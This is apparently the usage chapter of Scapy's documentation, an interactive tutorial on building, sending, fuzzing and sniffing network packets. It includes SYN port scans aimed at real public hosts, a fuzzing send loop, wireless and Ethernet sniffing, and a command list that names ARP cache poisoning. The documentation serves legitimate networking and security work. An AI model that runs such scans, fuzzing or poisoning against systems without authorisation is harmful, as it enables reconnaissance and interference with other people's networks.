




*****
Usage
*****

Starting Scapy
==============

Scapy's interactive shell is run in a terminal session. Root privileges are needed to
send the packets, so we're using ``sudo`` here::
  
    $ sudo scapy
    Welcome to Scapy (2.0.1-dev)
    >>> 

On Windows, please open a command prompt (``cmd.exe``) and make sure that you have 
administrator privileges::

    C:\>scapy
    INFO: No IPv6 support in kernel
    WARNING: No route found for IPv6 destination :: (no default route?)
    Welcome to Scapy (2.0.1-dev)
    >>>

If you do not have all optional packages installed, Scapy will inform you that 
some features will not be available:: 
                                 
    INFO: Can't import python gnuplot wrapper . Won't be able to plot.
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

The basic features of sending and receiving packets should still work, though. 

Interactive tutorial
====================

This section will show you several of Scapy's features.
Just open a Scapy session as shown above and try the examples yourself.

First steps
-----------

Let's build a packet and play with it::

    >>> a=IP(ttl=10) 
    >>> a 
    < IP ttl=10 |> 
    >>> a.src 
    ’127.0.0.1’ 
    >>> a.dst="192.168.1.1" 
    >>> a 
    < IP ttl=10 dst=192.168.1.1 |> 
    >>> a.src 
    ’192.168.8.14’ 
    >>> del(a.ttl) 
    >>> a 
    < IP dst=192.168.1.1 |> 
    >>> a.ttl 
    64 

Stacking layers
---------------

The ``/`` operator has been used as a composition operator between two layers. When doing so, the lower layer can have one or more of its defaults fields overloaded according to the upper layer. (You still can give the value you want). A string can be used as a raw layer.

::

    >>> IP()
    <IP |>
    >>> IP()/TCP()
    <IP frag=0 proto=TCP |<TCP |>>
    >>> Ether()/IP()/TCP()
    <Ether type=0x800 |<IP frag=0 proto=TCP |<TCP |>>>
    >>> IP()/TCP()/"GET / HTTP/1.0\r\n\r\n"
    <IP frag=0 proto=TCP |<TCP |<Raw load='GET / HTTP/1.0\r\n\r\n' |>>>
    >>> Ether()/IP()/IP()/UDP()
    <Ether type=0x800 |<IP frag=0 proto=IP |<IP frag=0 proto=UDP |<UDP |>>>>
    >>> IP(proto=55)/TCP()
    <IP frag=0 proto=55 |<TCP |>>

.. image:: graphics/fieldsmanagement.*
   :scale: 90

Each packet can be build or dissected (note: in Python ``_`` (underscore) is the latest result)::

    >>> str(IP())
    'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
    >>> IP(_)
    <IP version=4L ihl=5L tos=0x0 len=20 id=1 flags= frag=0L ttl=64 proto=IP
     chksum=0x7ce7 src=127.0.0.1 dst=127.0.0.1 |>
    >>>  a=Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"
    >>>  hexdump(a)   
    00 02 15 37 A2 44 00 AE F3 52 AA D1 08 00 45 00  ...7.D...R....E.
    00 43 00 01 00 00 40 06 78 3C C0 A8 05 15 42 23  .C....@.x<....B#
    FA 97 00 14 00 50 00 00 00 00 00 00 00 00 50 02  .....P........P.
    20 00 BB 39 00 00 47 45 54 20 2F 69 6E 64 65 78   ..9..GET /index
    2E 68 74 6D 6C 20 48 54 54 50 2F 31 2E 30 20 0A  .html HTTP/1.0 .
    0A                                               .
    >>> b=str(a)
    >>> b
    '\x00\x02\x157\xa2D\x00\xae\xf3R\xaa\xd1\x08\x00E\x00\x00C\x00\x01\x00\x00@\x06x<\xc0
     \xa8\x05\x15B#\xfa\x97\x00\x14\x00P\x00\x00\x00\x00\x00\x00\x00\x00P\x02 \x00
     \xbb9\x00\x00GET /index.html HTTP/1.0 \n\n'
    >>> c=Ether(b)
    >>> c
    <Ether dst=00:02:15:37:a2:44 src=00:ae:f3:52:aa:d1 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=67 id=1 flags= frag=0L ttl=64 proto=TCP chksum=0x783c
     src=192.168.5.21 dst=66.35.250.151 options='' |<TCP sport=20 dport=80 seq=0L
     ack=0L dataofs=5L reserved=0L flags=S window=8192 chksum=0xbb39 urgptr=0
     options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

We see that a dissected packet has all its fields filled. That's because I consider that each field has its value imposed by the original string. If this is too verbose, the method hide_defaults() will delete every field that has the same value as the default::

    >>> c.hide_defaults()
    >>> c
    <Ether dst=00:0f:66:56:fa:d2 src=00:ae:f3:52:aa:d1 type=0x800 |<IP ihl=5L len=67
     frag=0 proto=TCP chksum=0x783c src=192.168.5.21 dst=66.35.250.151 |<TCP dataofs=5L
     chksum=0xbb39 options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

Reading PCAP files
------------------

.. index::
   single: rdpcap()

You can read packets from a pcap file and write them to a pcap file. 

    >>> a=rdpcap("/spare/captures/isakmp.cap")
    >>> a
    <isakmp.cap: UDP:721 TCP:0 ICMP:0 Other:0>

Graphical dumps (PDF, PS)
-------------------------

.. index::
   single: pdfdump(), psdump()

If you have PyX installed, you can make a graphical PostScript/PDF dump of a packet or a list of packets (see the ugly PNG image below. PostScript/PDF are far better quality...)::

    >>> a[423].pdfdump(layer_shift=1)
    >>> a[423].psdump("/tmp/isakmp_pkt.eps",layer_shift=1)
    

=======================   ====================================================
Command                   Effect
=======================   ====================================================
str(pkt)                  assemble the packet 
hexdump(pkt)              have an hexadecimal dump 
ls(pkt)                   have the list of fields values 
pkt.summary()             for a one-line summary 
pkt.show()                for a developped view of the packet 
pkt.show2()               same as show but on the assembled packet (checksum is calculated, for instance) 
pkt.sprintf()             fills a format string with fields values of the packet 
pkt.decode_payload_as()   changes the way the payload is decoded 
pkt.psdump()              draws a PostScript diagram with explained dissection 
pkt.pdfdump()             draws a PDF with explained dissection 
pkt.command()             return a Scapy command that can generate the packet 
=======================   ====================================================

Generating sets of packets
--------------------------

For the moment, we have only generated one packet. Let see how to specify sets of packets as easily. Each field of the whole packet (ever layers) can be a set. This implicidely define a set of packets, generated using a kind of cartesian product between all the fields.

::

    >>> a=IP(dst="www.slashdot.org/30")
    >>> a
    <IP  dst=Net('www.slashdot.org/30') |>
    >>> [p for p in a]
    [<IP dst=66.35.250.148 |>, <IP dst=66.35.250.149 |>,
     <IP dst=66.35.250.150 |>, <IP dst=66.35.250.151 |>]
    >>> b=IP(ttl=[1,2,(5,9)])
    >>> b
    <IP ttl=[1, 2, (5, 9)] |>
    >>> [p for p in b]
    [<IP ttl=1 |>, <IP ttl=2 |>, <IP ttl=5 |>, <IP ttl=6 |>, 
     <IP ttl=7 |>, <IP ttl=8 |>, <IP ttl=9 |>]
    >>> c=TCP(dport=[80,443])
    >>> [p for p in a/c]
    [<IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=443 |>>]

Some operations (like building the string from a packet) can't work on a set of packets. In these cases, if you forgot to unroll your set of packets, only the first element of the list you forgot to generate will be used to assemble the packet.

===============  ====================================================
Command          Effect
===============  ====================================================
summary()        displays a list of summaries of each packet 
nsummary()       same as previous, with the packet number 
conversations()  displays a graph of conversations 
show()           displays the prefered representation (usually nsummary()) 
filter()         returns a packet list filtered with a lambda function 
hexdump()        returns a hexdump of all packets 
hexraw()         returns a hexdump of the Raw layer of all packets 
padding()        returns a hexdump of packets with padding 
nzpadding()      returns a hexdump of packets with non-zero padding 
plot()           plots a lambda function applied to the packet list 
make table()     displays a table according to a lambda function 
===============  ====================================================

Sending packets
---------------

.. index::
   single: Sending packets, send
   
Now that we know how to manipulate packets. Let's see how to send them. The send() function will send packets at layer 3. That is to say it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It's up to you to choose the right interface and the right link layer protocol.

::

    >>> send(IP(dst="1.2.3.4")/ICMP())
    .
    Sent 1 packets.
    >>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
    ....
    Sent 4 packets.
    >>> sendp("I'm travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
    ................^C
    Sent 16 packets.
    >>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
    ...........
    Sent 11 packets.

Fuzzing
-------

.. index::
   single: fuzz(), fuzzing

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables to quicky built fuzzing templates and send them in loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized::

    >>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
    ................^C
    Sent 16 packets.

Send and receive packets (sr)
-----------------------------

.. index::
   single: sr()

Now, let's try to do some fun things. The sr() function is for sending packets and receiving answers. The function returns a couple of packet and answers, and the unanswered packets. The function sr1() is a variant that only return one packet that answered the packet (or the packet set) sent. The packets must be layer 3 packets (IP, ARP, etc.). The function srp() do the same for layer 2 packets (Ethernet, 802.3, etc.).

::

    >>> p=sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX")
    Begin emission:
    ...Finished to send 1 packets.
    .*
    Received 5 packets, got 1 answers, remaining 0 packets
    >>> p
    <IP version=4L ihl=5L tos=0x0 len=39 id=15489 flags= frag=0L ttl=42 proto=ICMP
     chksum=0x51dd src=66.35.250.151 dst=192.168.5.21 options='' |<ICMP type=echo-reply
     code=0 chksum=0xee45 id=0x0 seq=0x0 |<Raw load='XXXXXXXXXXX'
     |<Padding load='\x00\x00\x00\x00' |>>>>
    >>> p.show()
    ---[ IP ]---
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 39
    id        = 15489
    flags     = 
    frag      = 0L
    ttl       = 42
    proto     = ICMP
    chksum    = 0x51dd
    src       = 66.35.250.151
    dst       = 192.168.5.21
    options   = ''
    ---[ ICMP ]---
       type      = echo-reply
       code      = 0
       chksum    = 0xee45
       id        = 0x0
       seq       = 0x0
    ---[ Raw ]---
          load      = 'XXXXXXXXXXX'
    ---[ Padding ]---
             load      = '\x00\x00\x00\x00'

.. index::
   single: DNS, Etherleak

A DNS query (``rd`` = recursion desired). The host 192.168.5.1 is my DNS server. Note the non-null padding coming from my Linksys having the Etherleak flaw::

    >>> sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org")))
    Begin emission:
    Finished to send 1 packets.
    ..*
    Received 3 packets, got 1 answers, remaining 0 packets
    <IP version=4L ihl=5L tos=0x0 len=78 id=0 flags=DF frag=0L ttl=64 proto=UDP chksum=0xaf38
     src=192.168.5.1 dst=192.168.5.21 options='' |<UDP sport=53 dport=53 len=58 chksum=0xd55d
     |<DNS id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=1
     nscount=0 arcount=0 qd=<DNSQR qname='www.slashdot.org.' qtype=A qclass=IN |> 
     an=<DNSRR rrname='www.slashdot.org.' type=A rclass=IN ttl=3560L rdata='66.35.250.151' |>
     ns=0 ar=0 |<Padding load='\xc6\x94\xc7\xeb' |>>>>

The "send'n'receive" functions family is the heart of scapy. They return a couple of two lists. The first element is a list of couples (packet sent, answer), and the second element is the list of unanswered packets. These two elements are lists, but they are wrapped by an object to present them better, and to provide them with some methods that do most frequently needed actions::

    >>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
    Received 6 packets, got 3 answers, remaining 0 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)
    >>> ans,unans=_
    >>> ans.summary()
    IP / TCP 192.168.8.14:20 > 192.168.8.1:21 S ==> Ether / IP / TCP 192.168.8.1:21 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:22 S ==> Ether / IP / TCP 192.168.8.1:22 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:23 S ==> Ether / IP / TCP 192.168.8.1:23 > 192.168.8.14:20 RA / Padding
    
If there is a limited rate of answers, you can specify a time interval to wait between two packets with the inter parameter. If some packets are lost or if specifying an interval is not enough, you can resend all the unanswered packets, either by calling the function again, directly with the unanswered list, or by specifying a retry parameter. If retry is 3, scapy will try to resend unanswered packets 3 times. If retry is -3, scapy will resend unanswered packets until no more answer is given for the same set of unanswered packets 3 times in a row. The timeout parameter specify the time to wait after the last packet has been sent::

    >>> sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
    Begin emission:
    Finished to send 12 packets.
    Begin emission:
    Finished to send 9 packets.
    Begin emission:
    Finished to send 9 packets.
    
    Received 100 packets, got 3 answers, remaining 9 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:9 ICMP:0 Other:0>)

SYN Scans
---------

.. index::
   single: SYN Scan

Classic SYN Scan can be initialized by executing the following command from Scapy's prompt::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S"))

The above will send a single SYN packet to Google's port 80 and will quit after receving a single response::

    Begin emission:
    .Finished to send 1 packets.
    *
    Received 2 packets, got 1 answers, remaining 0 packets
    <IP  version=4L ihl=5L tos=0x20 len=44 id=33529 flags= frag=0L ttl=244
    proto=TCP chksum=0x6a34 src=72.14.207.99 dst=192.168.1.100 options=// |
    <TCP  sport=www dport=ftp-data seq=2487238601L ack=1 dataofs=6L reserved=0L
    flags=SA window=8190 chksum=0xcdc7 urgptr=0 options=[('MSS', 536)] |
    <Padding  load='V\xf7' |>>>

From the above output, we can see Google returned “SA” or SYN-ACK flags indicating an open port.

Use either notations to scan ports 400 through 443 on the system:

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=666,dport=(440,443),flags="S"))

or

    >>> sr(IP(dst="192.168.1.1")/TCP(sport=RandShort(),dport=[440,441,442,443],flags="S"))

In order to quickly review responses simply request a summary of collected packets::

    >>> ans,unans = _
    >>> ans.summary()
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:440 S ======> IP / TCP 192.168.1.1:440 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:441 S ======> IP / TCP 192.168.1.1:441 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:442 S ======> IP / TCP 192.168.1.1:442 > 192.168.1.100:ftp-data RA / Padding
    IP / TCP 192.168.1.100:ftp-data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp-data SA / Padding

The above will display stimulus/response pairs for answered probes. We can display only the information we are interested in by using a simple loop:

    >>> ans.summary( lambda(s,r): r.sprintf("%TCP.sport% \t %TCP.flags%") )
    440      RA
    441      RA
    442      RA
    https    SA

Even better, a table can be built using the ``make_table()`` function to display information about multiple targets::

    >>> ans,unans = sr(IP(dst=["192.168.1.1","yahoo.com","slashdot.org"])/TCP(dport=[22,80,443],flags="S"))
    Begin emission:
    .......*.**.......Finished to send 9 packets.
    **.*.*..*..................
    Received 362 packets, got 8 answers, remaining 1 packets
    >>> ans.make_table(
    ...    lambda(s,r): (s.dst, s.dport,
    ...    r.sprintf("{TCP:%TCP.flags%}{ICMP:%IP.src% - %ICMP.type%}")))
        66.35.250.150                192.168.1.1 216.109.112.135 
    22  66.35.250.150 - dest-unreach RA          -               
    80  SA                           RA          SA              
    443 SA                           SA          SA              

The above example will even print the ICMP error type if the ICMP packet was received as a response instead of expected TCP.

For larger scans, we could be interested in displaying only certain responses. The example below will only display packets with the “SA” flag set::

    >>> ans.nsummary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA")
    0003 IP / TCP 192.168.1.100:ftp_data > 192.168.1.1:https S ======> IP / TCP 192.168.1.1:https > 192.168.1.100:ftp_data SA

In case we want to do some expert analysis of responses, we can use the following command to indicate which ports are open::

    >>> ans.summary(lfilter = lambda (s,r): r.sprintf("%TCP.flags%") == "SA",prn=lambda(s,r):r.sprintf("%TCP.sport% is open"))
    https is open

Again, for larger scans we can build a table of open ports::

    >>> ans.filter(lambda (s,r):TCP in r and r[TCP].flags&2).make_table(lambda (s,r): 
    ...             (s.dst, s.dport, "X"))
        66.35.250.150 192.168.1.1 216.109.112.135 
    80  X             -           X               
    443 X             X           X

If all of the above methods were not enough, Scapy includes a report_ports() function which not only automates the SYN scan, but also produces a LaTeX output with collected results::

    >>> report_ports("192.168.1.1",(440,443))
    Begin emission:
    ...*.**Finished to send 4 packets.
    *
    Received 8 packets, got 4 answers, remaining 0 packets
    '\\begin{tabular}{|r|l|l|}\n\\hline\nhttps & open & SA \\\\\n\\hline\n440
     & closed & TCP RA \\\\\n441 & closed & TCP RA \\\\\n442 & closed & 
    TCP RA \\\\\n\\hline\n\\hline\n\\end{tabular}\n'

TCP traceroute
--------------

.. index::
   single: Traceroute

A TCP traceroute::

    >>> ans,unans=sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2))
    *****.******.*.***..*.**Finished to send 22 packets.
    ***......
    Received 33 packets, got 21 answers, remaining 1 packets
    >>> for snd,rcv in ans:
    ...     print snd.ttl, rcv.src, isinstance(rcv.payload, TCP)
    ... 
    5 194.51.159.65 0
    6 194.51.159.49 0
    4 194.250.107.181 0
    7 193.251.126.34 0
    8 193.251.126.154 0
    9 193.251.241.89 0
    10 193.251.241.110 0
    11 193.251.241.173 0
    13 208.172.251.165 0
    12 193.251.241.173 0
    14 208.172.251.165 0
    15 206.24.226.99 0
    16 206.24.238.34 0
    17 173.109.66.90 0
    18 173.109.88.218 0
    19 173.29.39.101 1
    20 173.29.39.101 1
    21 173.29.39.101 1
    22 173.29.39.101 1
    23 173.29.39.101 1
    24 173.29.39.101 1

Note that the TCP traceroute and some other high-level functions are already coded::

    >>> lsc()
    sr               : Send and receive packets at layer 3
    sr1              : Send packets at layer 3 and return only the first answer
    srp              : Send and receive packets at layer 2
    srp1             : Send and receive packets at layer 2 and return only the first answer
    srloop           : Send a packet at layer 3 in loop and print the answer each time
    srploop          : Send a packet at layer 2 in loop and print the answer each time
    sniff            : Sniff packets
    p0f              : Passive OS fingerprinting: which OS emitted this TCP SYN ?
    arpcachepoison   : Poison target's cache with (your MAC,victim's IP) couple
    send             : Send packets at layer 3
    sendp            : Send packets at layer 2
    traceroute       : Instant TCP traceroute
    arping           : Send ARP who-has requests to determine which hosts are up
    ls               : List  available layers, or infos on a given layer
    lsc              : List user commands
    queso            : Queso OS fingerprinting
    nmap_fp          : nmap fingerprinting
    report_ports     : portscan a target and output a LaTeX table
    dyndns_add       : Send a DNS add message to a nameserver for "name" to have a new "rdata"
    dyndns_del       : Send a DNS delete message to a nameserver for "name"
    [...]

Configuring super sockets
-------------------------

.. index::
   single: super socket

The process of sending packets and receiving is quite complicated. As I wanted to use the PF_PACKET interface to go through netfilter, I also needed to implement an ARP stack and ARP cache, and a LL stack. Well it seems to work, on ethernet and PPP interfaces, but I don't guarantee anything. Anyway, the fact I used a kind of super-socket for that mean that you can switch your IO layer very easily, and use PF_INET/SOCK_RAW, or use PF_PACKET at level 2 (giving the LL header (ethernet,...) and giving yourself mac addresses, ...). I've just added a super socket which use libdnet and libpcap, so that it should be portable::

    >>> conf.L3socket=L3dnetSocket
    >>> conf.L3listen=L3pcapListenSocket

Sniffing
--------

.. index::
   single: sniff()

We can easily capture some packets or even clone tcpdump or tethereal. If no interface is given, sniffing will happen on every interfaces::

    >>>  sniff(filter="icmp and host 66.35.250.151", count=2)
    <Sniffed: UDP:0 TCP:0 ICMP:2 Other:0>
    >>>  a=_
    >>>  a.nsummary()
    0000 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    0001 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    >>>  a[1]
    <Ether dst=00:ae:f3:52:aa:d1 src=00:02:15:37:a2:44 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=ICMP chksum=0x3831
     src=192.168.5.21 dst=66.35.250.151 options='' |<ICMP type=echo-request code=0
     chksum=0x6571 id=0x8745 seq=0x0 |<Raw load='B\xf7g\xda\x00\x07um\x08\t\n\x0b
     \x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d
     \x1e\x1f !\x22#$%&\'()*+,-./01234567' |>>>>
    >>> sniff(iface="wifi0", prn=lambda x: x.summary())
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 5 00:0a:41:ee:a5:50 / 802.11 Probe Response / Info SSID / Info Rates / Info DSset / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 11 00:07:50:d6:44:3f / 802.11 Authentication
    802.11 Management 11 00:0a:41:ee:a5:50 / 802.11 Authentication
    802.11 Management 0 00:07:50:d6:44:3f / 802.11 Association Request / Info SSID / Info Rates / Info 133 / Info 149
    802.11 Management 1 00:0a:41:ee:a5:50 / 802.11 Association Response / Info Rates / Info 133 / Info 149
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 / LLC / SNAP / ARP who has 172.20.70.172 says 172.20.70.171 / Padding
    802.11 / LLC / SNAP / ARP is at 00:0a:b7:4b:9c:dd says 172.20.70.172 / Padding
    802.11 / LLC / SNAP / IP / ICMP echo-request 0 / Raw
    802.11 / LLC / SNAP / IP / ICMP echo-reply 0 / Raw
    >>> sniff(iface="eth1", prn=lambda x: x.show())
    ---[ Ethernet ]---
    dst       = 00:ae:f3:52:aa:d1
    src       = 00:02:15:37:a2:44
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 0
       flags     = DF
       frag      = 0L
       ttl       = 64
       proto     = ICMP
       chksum    = 0x3831
       src       = 192.168.5.21
       dst       = 66.35.250.151
       options   = ''
    ---[ ICMP ]---
          type      = echo-request
          code      = 0
          chksum    = 0x89d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Ethernet ]---
    dst       = 00:02:15:37:a2:44
    src       = 00:ae:f3:52:aa:d1
    type      = 0x800
